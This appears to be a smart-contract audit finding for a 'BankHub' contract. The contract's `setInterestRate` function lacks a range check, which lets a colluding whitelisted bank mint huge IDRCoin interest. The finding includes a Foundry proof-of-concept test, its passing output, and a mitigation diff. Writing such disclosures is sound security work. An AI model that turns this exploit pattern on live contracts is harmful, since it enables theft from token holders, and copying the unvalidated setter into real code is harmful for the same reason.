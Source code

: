 # [H-05] Improper Input Validation in `BankHub::setInterestRate` Allows Malicious Attackers to Collaborate with Banks and Arbitrarily Multiply IDRCoin

## Submitter

ZafiN

## Finding description and impact

The `BankHub::setInterestRate` function suffers from improper input validation. These weaknesses create a serious vulnerability that attacker collaborating with malicious banks can exploit. By manipulating the interest rate, attacker collaborating with malicious bank can arbitrarily multiply its IDRCoin holdings within a short period of time.

The impact of this issue is significant. Malicious actors could potentially accumulate large amounts of IDRCoin by exploiting these flaws, leading to financial instability and unfair advantages within the system. This could result in financial losses, a devaluation of IDRCoin, and a loss of trust in the platform, which could have far-reaching consequences for legitimate users and investors.

## Proof of Concept


```js
    // set interest rate for saving account
    // this function would retroactively apply the new interest rate to all user savingAmount
    function setInterestRate(uint32 _interestRate) external onlyWhiteListed {
        interestRate[msg.sender] = _interestRate;
    }

```

In the `setInterestRate` function, a bank can set the interest rate to any value within the range of an unsigned 32-bit integer. Although there are state variables MIN_INTEREST_RATE and MAX_INTEREST_RATE that implicitly define a valid range for the interest rate (between 5 and 100), the function does not enforce these limits. An exploitation scenario that takes advantage of this vulnerability involves an attacker collaborating with a whitelisted bank. In this scenario, the attacker deposits funds into the whitelisted bank, and before attacker initiates a withdrawal, the bank alters the interest rate to the maximum value allowed by the unsigned 32-bit integer. This causes the user to receive an exceptionally large amount of minting interest from the `BankHub`. Afterward, the bank resets the interest rate back to a normal range (between 5 and 100), preventing other users from exploiting the vulnerability.

This vulnerabilities allows a malicious bank that collaborating with attacker to exploit interest rate mechanisms, resulting in the arbitrary multiplication of IDRCoin holdings in a very short time.

To verify this findings, add the following test to `Base.t.sol`:

```js
    function test_canDepositAndWithdrawWithLargeInterestAfterSetTheInterestRateToMaxUint32() public {
        address attacker = makeAddr(""attacker"");

        // Initiate the attacker with 100e6 IDRCoin
        vm.startPrank(address(bankHub));
        idrCoin.mint(attacker, 100e6);
        vm.stopPrank();

        vm.warp(1000);
        
        uint256 amount = idrCoin.balanceOf(attacker);
        
        vm.startPrank(attacker);
        idrCoin.approve(address(bankHub), amount);
        bankHub.depositToBank(amount, bankABC);       
        vm.stopPrank();
        
        uint256 durationInSeconds = 60 seconds;
        vm.warp(1000 + durationInSeconds);

        vm.prank(bankABC);
        bankHub.setInterestRate(type(uint32).max);
        
        vm.prank(attacker);
        bankHub.withdraw(amount, bankABC);


        uint256 interestWithTax = idrCoin.balanceOf(attacker) - amount; 

        uint256 interestWithTaxPercentageFromAmount = (interestWithTax * 100) / amount;
        console.log(""After %d seconds depositing, the interest is %d percents from amount. What a big interest that malicious bank can get only in %d seconds !!!"", durationInSeconds, interestWithTaxPercentageFromAmount, durationInSeconds);
        vm.stopPrank();
    }
```

then run `forge test --mt test_canDepositAndWithdrawWithLargeInterestAfterSetTheInterestRateToMaxUint32 -vvv`. the test would PASS:

```bash
Ran 1 test for test/Base.t.sol:Base
[PASS] test_canDepositAndWithdrawWithLargeInterestAfterSetTheInterestRateToMaxUint32() (gas: 174911)
Logs:
  After 60 seconds depositing, the interest is 7190 percents from amount. What a big interest that malicious bank collaborating with attacker can get only in 60 seconds !!!

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 12.51ms (1.36ms CPU time)

Ran 1 test suite in 49.35ms (12.51ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

## Recommended mitigation steps

Add an input validation check in the `setInterestRate` function to ensure the interest rate value is within the range of [5, 100].

```diff
diff --git a/src/BankHub.sol b/src/BankHub.sol
index c9b6d40..8b7715e 100644
--- a/src/BankHub.sol
+++ b/src/BankHub.sol

@@ -115,7 +116,11 @@ contract BankHub{
    // set interest rate for saving account
    // this function would retroactively apply the new interest rate to all user savingAmount
    function setInterestRate(uint32 _interestRate) external onlyWhiteListed {
        
+        if (_interestRate < MIN_INTEREST_RATE) {
+            revert invalidInterestRate();
+        }
+        if (_interestRate > MAX_INTEREST_RATE) {
+            revert invalidInterestRate();
+        }

        interestRate[msg.sender] = _interestRate;
    }
     }

```
